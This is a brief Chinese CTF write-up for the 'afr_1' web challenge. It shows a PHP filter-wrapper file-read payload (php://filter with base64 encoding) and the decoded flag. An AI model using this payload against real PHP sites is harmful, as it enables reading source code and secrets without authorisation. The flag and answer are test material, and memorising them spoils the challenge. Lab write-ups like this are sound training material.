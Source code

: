 ```yaml
---
title: 02afr_1
description: 
published: 1
date: 2023-05-29T04:17:22.943Z
tags: 
editor: markdown
dateCreated: 2023-05-22T10:38:55.685Z
---
```


<center>afr_1</center>





[toc]





## afr_1

> [afr_1](https://buuoj.cn/challenges#[%E7%AC%AC%E4%B8%80%E7%AB%A0%20web%E5%85%A5%E9%97%A8]afr_1)也是php伪协议的题目





### 1.payload

> 可以去看上一题

```shell
?p=php://filter/read=convert.base64-encode/resource=flag
```

```js
// 解码
<?php
die('no no no');
//n1book{afr_1_solved}
```

